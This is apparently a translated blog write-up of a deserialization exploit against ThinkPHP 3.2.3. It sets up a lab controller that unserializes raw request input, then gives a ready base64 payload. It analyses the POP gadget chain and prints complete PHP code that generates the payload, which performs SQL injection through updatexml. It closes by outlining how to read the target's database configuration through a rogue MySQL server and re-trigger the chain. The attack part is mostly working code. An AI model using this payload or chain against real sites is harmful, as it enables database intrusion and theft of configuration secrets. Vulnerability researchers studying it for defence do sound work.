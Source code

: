 # ThinkPHP3.2.x Deserialization

Author: H3rmesk1t

Data: 2021.08.10

# Initial configuration
- Here is a sample using ThinkPHP3.2.3, [click here to download](http://www.thinkphp.cn/donate/download/id/610.html)
- The php version uses PHP5 (the ThinkPHP framework from PHP7 does not pass parameters when calling parameter functions will trigger error handling in the framework)
- In the downloaded source code, the content of `Application/Home/Controller/IndexController.class.php` needs to be modified

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $this->show('<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} body{ background: #fff; font-family: "Microsoft Yahei"; color: #333;font-size: 24px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.8em; font-size: 36px } a,a:hover{color:blue;}</style><div style="padding: 24px 48px;"<h1>:)</h1><p>Welcome to <b>ThinkPHP</b>! </p><br/> Version V{$Think.version}</div><script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"></script><thinkad id="ad_55e75dfae343f5a1"></thinkad><script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"></script>','utf-8');
    }
    public function d1no(){
        unserialize(base64_decode(file_get_contents('php://input')));
        phpinfo();
    }
}
```
# Vulnerability Exploit

Payload

```shell
TzoyNjoiVGhpbmtcSW1hZ2VcRHJpdmVyXEltYWdpY2siOjE6e3M6MzE6IgBUaGlua1xJbWFnZVxEcmml2ZXJcSW1hZ2ljawBpbWciO086Mjk6IlRoaW5rXFNlc3Npb25cRHJpdmVyXE1lbWNhY2hlIjoxOntzOjk6IgAqAGhhbmRsZSI7TzoxMToiVGhpbmtcTW9kZWwiOjQ6e3M6MTA6IgAqAG9wdGlvb nMiO2E6MTp7czo1OiJ3aGVyZSI7czowOiIiO31zOjU6IgAqAHBrIjtzOjI6ImlkIjtzOjc6IgAqAGRhdGEiO2E6MTp7czoyOiJpZCI7YToyOntzOjU6InRhYmxlIjtzOjYzOiJ0aGlua3BocC51c2VycyB3aGVyZSAxPXVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLHVzZXIoKSwweDdlKSwxKSMiO3M6NT oid2hlcmUiO3M6MzoiMT0xIjt9fXM6NToiACoAZGIiO086MjE6IlRoaW5rXERiXERyaXZlclxNeXNxbCI6Mjp7czoxMDoiACoAb3B0aW9ucyI7YToxOntpOjEwMDE7YjoxO31zOjk6IgAqAGNvbmZpZyI7YTo4OntzOjU6ImRlYnVnIjtpOjE7czo0OiJ0eXBlIjtzOjU6Im15c3FsIjtzOjg6ImRhdGF iYXNlIjtzOjg6InRoaW5rcGhwIjtzOjg6Imhvc3RuYW1lIjtzOjk6IjEyNy4wLjAuMSI7czo4OiJob3N0cG9ydCI7czo0OiIzMzA2IjtzOjc6ImNoYXJzZXQiO3M6NDoidXRmOCI7czo4OiJ1c2VybmFtZSI7czo4OiJ0aGlua3BocCI7czo4OiJwYXNzd29yZCI7czo4OiJ0aGlua3BocCI7fX19fX0=
```
![Insert the picture description here](https://img-blog.csdnimg.cn/7e07b39f56f44f958cadb729f2718a98.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

# Vulnerability Analysis
## POP chain analysis

First find the starting point of a chain and search globally `__destruct`

![Insert the picture description here](https://img-blog.csdnimg.cn/a8ead6d7416344fe9876f0591983e265.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

After checking, I found that many of them are `free()` or `fclose()`, two of which are worth noting. After analysis, I positioned one of them: `ThinkPHP\Library\Think\Image\Driver\Imagick.class.php`

![Insert the picture description here](https://img-blog.csdnimg.cn/62595d3ad56a4a4dae91e0c59bf5842f.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Here, `$this->img` refers to the member variable img in this class. It is completely controllable. The `destroy()` of `$this->img` is called. The method is searched globally to find a springboard class containing the `destroy()` member method, follow up `ThinkPHP\Library\Think\Session\Driver\Memcache.class.php`

![Insert the picture description here](https://img-blog.csdnimg.cn/9662ee8b5dee44b2862dabb552ce91c8.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

In the previous step, the value was not passed when the `destroy() method is called in `Imagick::__destruct`, so the formal parameter `$sessID` is empty (this is why you used PHP5 before. If you call the parameter function in PHP7, it will trigger the error processing in the framework, resulting in an error). The `$this->handle` is controllable, and the `delete()` method of `$this->handle` is called, and the passed parameters are partially controllable. Therefore, you can continue to look for a springboard class with the `delete()` method and follow up with `ThinkPHP\Mode\Lite\Model.class.php`

![Insert the picture description here](https://img-blog.csdnimg.cn/36b6474097bd4d799c48a84d74ba7f90.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

The `$pk` here is actually `$this->pk`, which is completely controllable. The `$options` below is passed from the first springboard class. In the first springboard class, it can control whether it is empty. `$this->options['where']` is a member attribute and is also controllable, so the program can be controlled.
Go to `return $this->delete($this->data[$pk]);`, and I called myself `$this->delete()` again, but the parameter `$this->data[$pk]` at this time is controllable. At this time, `delete()` can be accessed with controllable parameters. This is the `delete()` method in the database model class of ThinkPHP. It will eventually be called into `delete()` in the database driver class. And a bunch of conditional judgments in the code are obviously controllable, including the `$options` parameter when calling `$this->db->delete($options)` that can also be controlled. Then you can call the `delete()` method in any of the database class that comes with it.

![Insert the picture description here](https://img-blog.csdnimg.cn/d522d237a756406cb8ac8eea977ccf83.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Follow up on `ThinkPHP\Library\Think\Db\Driver.class.php`. Since the incoming parameters are completely controllable, the `$table` here is controllable. Splicing `$table` to `$sql` and passing in `$this->execute()`

![Insert the picture description here](https://img-blog.csdnimg.cn/0512627f037544c4bd2b9d69e6774e92.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Follow up on `ThinkPHP\Library\Think\Db\Driver\Firebird.class.php`, here is a method to initialize the database link.

![Insert the picture description here](https://img-blog.csdnimg.cn/76c5f6f5f2b14ceb8a47f1692fc9bbca.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Follow up on `ThinkPHP\Library\Think\Db\Driver.class.php`, here `initConnect` method can control member properties and make the program call `$this->connect()`

![Insert the picture description here](https://img-blog.csdnimg.cn/eebc0008dddc4e78b07d08a03abee75a.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Follow up on `ThinkPHP\Library\Think\Db\Driver.class.php`, you can see that here you use the configuration in `$this->config` to create a database connection, and then execute the `DELETE SQL statement in the previous splicing`

![Insert the picture description here](https://img-blog.csdnimg.cn/26c6d51be52f441694891696e506273c.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
## POP chain construction

```php
<?php
namespace Think\Image\Driver{
	use Think\Session\Driver\Memcache;
	class Imagick{
		private $img;

		public function __construct(){
			$this->img = new Memcache();
		}
	}
}

namespace Think\Session\Driver{
	use Think\Model;
	class Memcache{
		protected $handle;

		public function __construct(){
			$this->handle = new Model();
		}
	}
}

namespace Think{
	use Think\Db\Driver\Mysql;
	class Model{
		protected $options = array();
		protected $pk;
		protected $data = array();
		protected $db = null;

		public function __construct(){
			$this->db = new Mysql();
			$this->options['where'] = '';
			$this->pk = 'id';
			$this->data[$this->pk] = array(
				'table' ='thinkphp.users where 1=updatexml(1,concat(0x7e,user(),0x7e),1)#',
				'where' ='1=1'
			);
		}
	}
}

namespace Think\Db\Driver{
	use PDO;
	class Mysql{
		protected $options = array(
            PDO::MYSQL_ATTR_LOCAL_INFILE =true // Only by turning on can the file be read
        );
        protected $config = array(
            "debug" =1,
            'type' ="mysql",
            "database" ="thinkphp",
            "hostname" ="127.0.0.1",
            "hostport" ="3306",
            "charset" ="utf8",
            "username" ="thinkphp",
            "password" ="thinkphp"
        );
	}
}

namespace {
	echo base64_encode(serialize(new Think\Image\Driver\Imagick()));
}
?>
```
## Vulnerability Exploit

The normal utilization process of this POP chain should be:
- Database configuration for leaking the target somewhere
- Trigger deserialization
- Trigger SQL injection of DELETE statement in chain

But if it is just like this, then this chain is actually very useless, but because any database can be connected here, you can consider using the MySQL malicious server to read client files vulnerability.

In this way, the utilization process becomes:
- Extract the target's WEB directory (e.g. DEBUG page)
- Enable the malicious MySQL malicious server to set the read file as the target database configuration file
- Trigger deserialization
- The part of the triggering PDO connection in the chain
- Get the database configuration of the target
- Deserialization again using the target database configuration
- Trigger SQL injection of DELETE statement in chain

# Reference article

You can view the reference article to obtain a more detailed way to exploit it: [https://mp.weixin.qq.com/s/S3Un1EM-cftFXr8hxG4qfA](https://mp.weixin.qq.com/s/S3Un1EM-cftFXr8hxG4qfA)